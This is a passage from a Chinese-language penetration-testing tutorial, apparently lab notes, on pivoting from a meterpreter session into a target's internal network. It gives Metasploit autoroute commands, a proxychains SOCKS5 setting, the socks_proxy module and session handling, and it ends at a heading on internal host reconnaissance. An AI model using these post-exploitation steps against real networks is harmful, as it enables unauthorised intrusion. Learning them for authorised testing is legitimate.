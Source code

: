```
run get_local_subnets  #获取目标内网相关信息
run autoroute -s 192.168.53.0/24  #添加路由
run autoroute -p    #查看路由
```

![image-20211215135145859](https://gitee.com/xxb667/img/raw/master/img/image-20211215135145859.png)

![image-20211215135347307](https://gitee.com/xxb667/img/raw/master/img/image-20211215135347307.png)

### 连接代理

#### 端口修改

在kali终端里面

首先修改 

```
vim /etc/proxychains4.conf
```

修改端口：

```
socks5 127.0.0.1 1080
```

![image-20211215135748270](https://gitee.com/xxb667/img/raw/master/img/image-20211215135748270.png)

#### 把meterpreter 放在后台运行

```
background
```

```
use auxiliary/server/socks_proxy   #使用代理模块
show options   #保持默认即可
run
```

![image-20211215140343421](https://gitee.com/xxb667/img/raw/master/img/image-20211215140343421.png)

![image-20211215140416285](https://gitee.com/xxb667/img/raw/master/img/image-20211215140416285.png)

##### 返回meterpreter

```
show sessions #查看sessions
sessions 1  #看数字对应的
```

![image-20211215142008431](https://gitee.com/xxb667/img/raw/master/img/image-20211215142008431.png)

### 内网主机信息收集
